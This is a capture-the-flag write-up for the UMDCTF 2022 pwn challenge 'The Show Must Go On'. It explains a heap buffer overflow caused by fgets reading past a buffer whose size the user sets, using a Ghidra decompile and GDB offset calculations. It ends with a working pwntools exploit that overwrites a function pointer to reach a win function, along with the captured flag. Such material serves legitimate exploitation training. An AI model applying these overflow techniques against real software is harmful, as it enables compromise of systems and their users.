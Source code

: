 # UMDCTF 2022

## The Show Must Go On

> We are in the business of entertainment, the show must go on! Hope we can find someone to replace our old act super fast...
> 
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 30138`
>
> [`theshow`](theshow)

Tags: _pwn_ _x86-64_ _bof_ _heap_

## Summary

BOF in embryo heap (vs stack) to change a function pointer to `win`.

> The binary is static linked.  So a bit more looking around.  You'll lose a lot of time if you do not discover the `win` function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE is all we need to call `win`.


### Ghidra Decompile

```c
undefined8 setup(void)
{
  undefined8 *puVar1;
  long in_FS_OFFSET;
  int local_44;
  char *local_40;
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = (char *)0x0;
  local_44 = 0;
  message1 = (undefined8 *)malloc_set(0x50);
  message2 = (undefined8 *)malloc_set(0x60);
  message3 = (undefined8 *)malloc_set(0x80);
  puVar1 = message1;
  *message1 = 0x20656d6f636c6557;
  puVar1[1] = 0x6320656874206f74;
  puVar1[2] = 0x6c63207964656d6f;
  *(undefined4 *)(puVar1 + 3) = 0xa216275;
  puVar1 = message2;
  *message2 = 0x20796c6e6f206557;
  puVar1[1] = 0x6568742065766168;
  puVar1[2] = 0x6f63207473656220;
  puVar1[3] = 0x20736e616964656d;
  *(undefined4 *)(puVar1 + 4) = 0x65726568;
  *(undefined *)((long)puVar1 + 0x24) = 0x21;
  puVar1 = message3;
  *message3 = 0x6820657361656c50;
  puVar1[1] = 0x7320737520706c65;
  puVar1[2] = 0x6f66207075207465;
  puVar1[3] = 0x612072756f792072;
  *(undefined4 *)(puVar1 + 4) = 0xa7463;
  printf("%s",message1);
  printf("%s",message2);
  printf("%s",message3);
  puts("What is the name of your act?");
  __isoc99_scanf(&DAT_004bb1e6,local_38);
  mainAct = malloc_set(0x68);
  thunk_FUN_0040054e(mainAct,local_38,0x20);
  local_40 = crypt("Main_Act_Is_The_Best",salt);
  thunk_FUN_0040054e(mainAct + 0x20,local_40,0x40);
  puts("Your act code is: Main_Act_Is_The_Best");
  *(code **)(mainAct + 0x60) = tellAJoke;
  currentAct = mainAct;
  free(message1);
  free(message3);
  puts("How long do you want the show description to be?");
  __isoc99_scanf(&DAT_004bb2a2,&local_44);
  showDescription = (char *)malloc_set((long)(local_44 + 8));
  puts("Describe the show for us:");
  getchar();
  fgets(showDescription,500,(FILE *)stdin);
  actList._0_8_ = mainAct;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

The vuln is `fgets`:

```c
  puts("How long do you want the show description to be?");
  __isoc99_scanf(&DAT_004bb2a2,&local_44);
  showDescription = (char *)malloc_set((long)(local_44 + 8));
  puts("Describe the show for us:");
  getchar();
  fgets(showDescription,500,(FILE *)stdin);
```

The length of `showDescription` is dynamic, but `fgets` will read up to `500` bytes.  This creates an opportunity to corrupt the heap.

There are four `malloc_set` calls before the `malloc_set` for `showDescription`.  The fourth is for the `mainAct` struct; `0x60` offset into that struct is a pointer to a function:

```
*(code **)(mainAct + 0x60) = tellAJoke;
```

We just need to change that to `win`, that's it.

Just before we're prompted for show length, the following `free`s are called:

```
  free(message1);
  free(message3);
```

If we set our show length to the same as `message3` (`0x80`, see the decompile), then we should be sitting in the heap right above the `mainAct` struct (heap memory optimization for reuse).  If so, then overwriting the function pointer is trivial.

The request size needs to be `0x80` - `8` (`120`), since the code will add `8` to our value:

```
showDescription = (char *)malloc_set((long)(local_44 + 8));
```

To overwrite the function pointer we'll need to send `0x80` bytes to exhaust our allocation + `16` bytes for the heap structure (Google for some heap diagrams) + `0x60` (offset into `mainAct` for function pointer).  So that's `0x80 + 16 + 0x60` (`240`).

Alternatively you can use GDB:

```
gef➤  run
Starting program: /pwd/datajerk/umdctf2022/theshow/theshow
Welcome to the comedy club!
We only have the best comedians here!Please help us set up for your act
What is the name of your act?
FOOBAR
Your act code is: Main_Act_Is_The_Best
How long do you want the show description to be?
^C
Program received signal SIGINT, Interrupt.
```

Start it, put in a string (e.g. `FOOBAR`), ctrl-C, then:

```
gef➤  grep FOOBAR
[+] Searching 'FOOBAR' in memory
[+] In '[heap]'(0x6e9000-0x73b000), permission=rw-
  0x719c90 - 0x719c96  →   "FOOBAR"
```

Note the `0x719c90` location and type `c`:

The last prompt was `How long do you want the show description to be?`, and we already determined above it needs to be `120`, so type that in:

```
gef➤  c
Continuing.
120
Describe the show for us:
BLAHBLAH
What would you like to do?
+-------------+
|   Actions   |
|-------------|
| Perform Act |
| Switch Act  |
| End Show    |
+-------------|
Action: ^C
```

Enter something else (e.g. `BLAHBLAH`), and then ctrl-c and search for it:

```
gef➤  grep BLAHBLAH
[+] Searching 'BLAHBLAH' in memory
[+] In '[heap]'(0x6e9000-0x73b000), permission=rw-
  0x719c00 - 0x719c0a  →   "BLAHBLAH\n"
```

Verify that `0x719c00` (location of `BLAHBLAH`) is less than `0x719c90` (location of `FOOBAR`), if so, you're a winner.  Just subtract one from the other and add `0x60` for the function pointer offset:

```
gef➤  p/d 0x719c90 - 0x719c00 + 0x60
$1 = 240
```  
 
  
## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./theshow',checksec=False)

if args.REMOTE:
    p = remote('0.cloud.chals.io', 30138)
else:
    p = process(binary.path)

p.sendlineafter(b'act?\n', b'foo')
p.sendlineafter(b'be?\n', b'120')

payload  = b''
payload += 240 * b'A'
payload += p64(binary.sym.win)

p.sendlineafter(b'us:\n', payload)
p.sendlineafter(b'Action: ', b'1')

flag = p.recvline().strip().decode()

p.close()
print(flag)
```

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 0.cloud.chals.io on port 30138: Done
[*] Closed connection to 0.cloud.chals.io port 30138
UMDCTF{b1ns_cAN_B3_5up3r_f4st}
```

